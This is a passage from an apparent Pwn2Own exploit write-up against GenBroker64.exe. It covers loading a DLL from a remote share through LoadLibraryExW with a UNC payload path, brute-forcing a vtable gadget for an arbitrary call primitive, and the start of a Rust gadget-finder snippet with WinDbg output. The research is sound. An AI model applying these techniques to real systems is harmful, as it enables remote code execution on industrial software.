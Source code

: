 <center><img src="/images/paracosme/import.png" /></center>

The only obvious import that stands out was [LoadLibraryExW](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexw). It allows  loading a DLL hosted on a remote share. This is cool, but it also means we need to burn space in the reclaimed heap chunk just to store a UTF-16 string that looks like the following: `\\192.168.1.1\x\a.dll\x00`. This is already ~44 bytes 😓.

How the hell do we boost the constrained call primitive into an arbitrary call primitive 🤔? Based on the constraints, looking for that magic gadget was painful and a bit of a walk in the desert. I started doing it manually and focusing on virtual tables because in essence.. we need a very specific one. On top of being well formed, the function pointer at offset `0x10` needs to be pointing to a piece of code that is useful for us. After hours and hours of prototyping, searching, and trying ideas, I lost hope. It was so weird because it felt like I was so close but so far away at the same time 😢.

I switched gears and decided to write a brute-force tool. The idea was to capture a crash dump when I hijack control flow and replace the virtual address table pointer with EVERY addressable part of `GenBroker64.exe`. The emulator executes forward and catches crashes. When one occurs, I can check postconditions such as 'Does RIP have a value that looks like a controlled value'? I initially wrote this as a quick & dirty script but recently rewrote it in Rust as a learning exercise 🦀. I'll try to clean it up and release it if people are interested. The precondition function is used to insert the candidate address right where the vtable is expected to be at to simulate our exploit. The `pre` function runs before the emulator starts executing:
```rust
impl Finder for Pwn2OwnMiami2022_1 {
    fn pre(&mut self, emu: &mut Emu, candidate: u64) -> Result<()> {
        // ```
        // (1574.be0): Access violation - code c0000005 (first/second chance not available)
        // For analysis of this file, run !analyze -v
        // oleaut32!VariantClearWorker+0xff:
        // 00007ffb`3a3dc7fb 488b4010        mov     rax,qword ptr [rax+10h] ds:deadbeef`baadc0ee=????????????????
        //
        // 0:011> u . l3
        // oleaut32!VariantClearWorker+0xff:
        // 00007ffb`3a3dc7fb 488b4010        mov     rax,qword ptr [rax+10h]
        // 00007ffb`3a3dc7ff ff15c3ce0000    call    qword ptr [oleaut32!_guard_dispatch_icall_fptr (00007ffb`3a3e96c8)]
        //
        // 0:011> u poi(00007ffb`3a3e96c8)
```